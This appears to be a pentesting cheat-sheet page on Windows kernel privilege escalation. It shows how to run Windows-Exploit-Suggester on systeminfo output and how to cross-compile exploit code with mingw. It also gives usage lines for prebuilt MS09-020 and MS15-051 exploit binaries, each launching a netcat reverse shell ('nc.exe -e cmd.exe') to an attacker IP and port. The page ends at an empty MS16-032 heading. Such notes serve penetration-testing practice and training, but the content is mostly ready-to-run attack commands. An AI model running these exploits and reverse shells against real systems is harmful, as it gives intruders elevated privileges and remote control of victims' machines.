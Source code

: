  `windows-exploit-suggester.py` or `wesng` are amazing scripts that do this work.

{% embed url="https://github.com/AonCyberLabs/Windows-Exploit-Suggester" %}

{% hint style="info" %}
**Remember** to update the database.
{% endhint %}

```text
./windows-exploit-suggester.py --update
```

We just need to execute `systeminfo` and save the output into a file on the windows target machine.

```text
systeminfo > systeminfo.txt
```

Once downloaded to our attacking machine we just need to execute the following command:

```text
./windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --systeminfo systeminfo.txt
```

### Compiling Exploits

Sometimes we need to compile our exploits in order to get the binary or executable.

For **64-bits:**

```text
x86_64-w64-mingw32-gcc exploit.c -o exploit.exe
```

For **32-bits:**

```text
i686-w64-mingw32-gcc exploit.c -o exploit.exe
```

### MS09-20

```text
/opt/windows-kernel-exploits/MS09-020/MS09-020-KB970483-CVE-2009-1535-IIS6/IIS6.0.exe

Usage:
.\IIS6.0.exe "c:\windows\temp\nc.exe -e cmd.exe 10.10.14.15 4444"
```

### MS15-051

```text
/opt/windows-kernel-exploits/MS15-051/MS15-051-KB3045171/MS15-051.exe

Usage:
.\ms15-051.exe "c:\windows\temp\nc.exe -e cmd.exe 10.10.14.15 4444"
```

### MS16-032
